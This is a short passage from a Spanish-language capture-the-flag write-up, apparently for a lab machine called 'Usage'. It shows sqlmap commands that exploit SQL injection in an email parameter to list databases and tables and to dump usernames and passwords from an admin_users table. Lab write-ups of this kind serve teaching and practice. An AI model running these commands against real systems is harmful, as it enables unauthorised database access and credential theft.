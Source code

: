 -------------------
### Explotacion
Entonces con sqlmap utilice los siguientes parametros para obtener los nombre de la base de datos
```bash
sqlmap -r req.txt -p email --batch --level 5 --risk 3 --dbms=mysql --dbs
```
![SQLMap2](../assets/images-Usage/Usage9.png)

Ahora voy intentar ver las tablas que contiene usage_blog
```bash
sqlmap -r req.txt -p email --batch --level 5 --risk 3 --dbms=mysql -D usage_blog --tables --threads 10
```

![SQLMap3](../assets/images-Usage/Usage10.png)

Veo una columna interesante que es admin_users voy a intentar ver dumpear el usuario y la password
```bash
sqlmap -r req.txt -p email --batch --level 5 --risk 3 --dbms=mysql -D usage_blog -T admin_users -C username,password --dump --threads 10
```

![SQLMap4](../assets/images-Usage/Usage11.png)
